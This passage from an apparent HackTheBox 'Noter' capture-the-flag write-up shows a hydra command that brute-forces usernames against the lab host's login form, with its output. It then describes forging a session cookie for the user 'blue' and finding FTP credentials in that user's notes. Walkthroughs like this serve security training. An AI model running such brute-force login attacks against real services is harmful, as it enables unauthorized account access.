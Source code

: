 Unfortunately, admin has not any interesting notes, so we have to enumerate users. There is no any information about the other user exists, so we have to brute-force it with `hydra`:

```zsh
$ hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p asdasd noter.htb -s 5000 http-post-form '/login:username=^USER^&password=^PASS^:F=credentials' 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-07-26 02:57:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://noter.htb:5000/login:username=^USER^&password=^PASS^:F=credentials
[5000][http-post-form] host: noter.htb   login: admin   password: asdasd
[5000][http-post-form] host: noter.htb   login: blue   password: asdasd
```

The other user is `blue`, we create a new cookie and access the account.

## Exploitation

### FTP server

![blue account](/assets/hackthebox/noter/blue_account.png)

Blue is a `VIP` user. There are Import/Export functions only on VIP dashboards. We can see several notes at /notes page, we can find ftp credentials in one of them.

![ftp credentials](/assets/hackthebox/noter/ftp_credentials.png)
